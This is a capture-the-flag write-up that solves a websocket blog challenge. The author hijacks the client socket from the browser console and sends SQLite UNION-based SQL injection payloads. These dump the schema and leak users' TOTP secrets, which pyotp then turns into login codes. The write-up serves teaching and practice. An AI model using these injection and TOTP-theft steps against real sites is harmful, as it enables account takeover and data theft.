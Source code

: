 If you look at the source code of the challenge you can see they used browserify for bundling the dependencies. I wrote my version of this client so you can check those dependencies at the link end of this writeup.

But in this writeup we are gonna use chrome developer console, put breakpoint in a good place and take control of the socket. Test manually and leak totp keys.

![image-20200427112039042](https://github.com/BirdsArentRealCTF/Blog-from-the-future/raw/master/image-20200427112039042.png)

I choose 2146th line because we can see response from server in here. And we can access to websocket and msgpack class. 

![image-20200427112558712](https://github.com/BirdsArentRealCTF/Blog-from-the-future/raw/master/image-20200427112558712.png)

After we get those we can manually test our payloads.

```javascript
r.send(o.encode(["getPost", "1"]))
```

![image-20200427112824345](https://github.com/BirdsArentRealCTF/Blog-from-the-future/raw/master/image-20200427112824345.png)

```json
author: 1
hidden: 0
id: 2
postDate: 1580947200000
text: "They're pretty cool, in my opinion."
title: "A review of American sockets"
```

This is the post structure. Mind the hidden field because if its true we can't see it.

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification using these payloads we can identify database system and develop payload for it.

```javascript
r.send(o.encode(["getPost", "1 and sqlite_version()=sqlite_version()"]))
```

It worked so we have sqlite backend. We can leak database structure with payload below.

```javascript
r.send(o.encode(["getPost", "999 or 1=1 UNION SELECT sql,sql,sql,sql,sql,0 from sqlite_master"]))
```

This payload allows us to see whole database structure.

```sql
CREATE TABLE "users" (
	"id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"username"	TEXT NOT NULL,
	"totp_key"	TEXT NOT NULL
)
CREATE TABLE "posts" (
	"id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"title"	TEXT NOT NULL,
	"author"	INTEGER NOT NULL,
	"text"	TEXT NOT NULL,
	"postDate"	INTEGER NOT NULL,
	"hidden"	INTEGER DEFAULT 0
)
```

After find out column names we can get user names and totp keys.

```javascript
r.send(o.encode(["getPost", "999 or 1=1 UNION SELECT username,totp_key,0,0,0,0 from users "]));
```

```javascript
{id: "alice", title: "J5YD4O2BIZYEMVJYIY3F24S3GQ2VC3ZTKJQVW5JFJUYHKODXORQQ", author: 0, text: 0, postDate: 0, …}
{id: "bob", title: "IE3V2RR4HRLUEOBDLVCWCQTYF5LT6RTCONNDMULGGJGS4STUMYWA", author: 0, text: 0, postDate: 0, …}
```

After leaking user names and totp keys we need to create totp password. I used pyotp library.

```python
import pyotp
totp = pyotp.TOTP('IE3V2RR4HRLUEOBDLVCWCQTYF5LT6RTCONNDMULGGJGS4STUMYWA')
totp.now() # => '677619'
```

Login and get the flag!

Don't forget to check my automated blind boolean script https://github.com/BirdsArentRealCTF/Blog-from-the-future/blob/master/index.html

Do you have any questions or suggestion? Feel free to contact via discord. **enjloezz#7444**
